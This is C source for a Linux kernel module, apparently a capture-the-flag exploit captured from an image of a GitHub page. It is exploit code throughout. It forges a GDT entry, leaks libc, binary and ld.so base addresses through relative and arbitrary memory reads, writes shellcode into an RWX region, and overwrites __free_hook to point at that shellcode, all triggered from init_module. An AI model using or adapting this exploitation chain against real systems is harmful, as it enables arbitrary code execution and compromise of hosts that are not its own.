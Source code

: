 ```c

    uint32_t new_ss_idx = init_val / 8;

    fake_gdtr.base = (uint64_t)fake_gdts;
    fake_gdtr.limit = (new_ss_idx+1) * 8 - 1;
    uint32_t old_ss_idx = 0x18 / 8;
    fake_gdts[new_ss_idx] = fake_gdts[old_ss_idx];
    printk(KERN_WARN "fake gdtr: 0x%llx (0x%x)\n", fake_gdtr.base, fake_gdtr.limit);

    uint64_t fgets_addr = rel_read64(fgets_got_off - table_binary_off);
    libc_base = fgets_addr - fgets_libc_off;
    uint64_t free_hook_addr = libc_base + freehook_libc_off;
    printk(KERN_WARN "fgets @ 0x%llx\n", fgets_addr);
    printk(KERN_WARN "libc @ 0x%llx\n", libc_base);
    printk(KERN_WARN "free_hook @ 0x%llx\n", free_hook_addr);

    uint64_t str_addr = rel_read64(str_table_off);
    uint64_t binary_addr = str_addr - str_binary_off;
    table_addr = binary_addr + table_binary_off;
    printk(KERN_WARN "str @ 0x%llx\n", str_addr);
    printk(KERN_WARN "binary @ 0x%llx\n", binary_addr);
    printk(KERN_WARN "table @ 0x%llx\n", table_addr);

    uint64_t dl_find_dso_addr = arb_read64(libc_base + dl_find_dso_got);
    uint64_t ld_base = dl_find_dso_addr - dl_find_dso_off;
    uint64_t rwx_addr = rwx_offset + ld_base;
    printk(KERN_WARN "dl_find_dso_addr @ 0x%llx\n", dl_find_dso_addr);
    printk(KERN_WARN "ld.so @ 0x%llx\n", ld_base);
    printk(KERN_WARN "rwx @ 0x%llx\n", rwx_addr);

    arb_write(rwx_addr, shellcode_pwn, sizeof(shellcode_pwn));
    printk(KERN_WARN "wrote shellcode to rwx region!\n");

    msleep(1000);

    arb_write64(free_hook_addr, rwx_addr);
    return;
}

int init_module(void)
{
    pwn();

	return 0;
}

void cleanup_module(void)
{
}
```

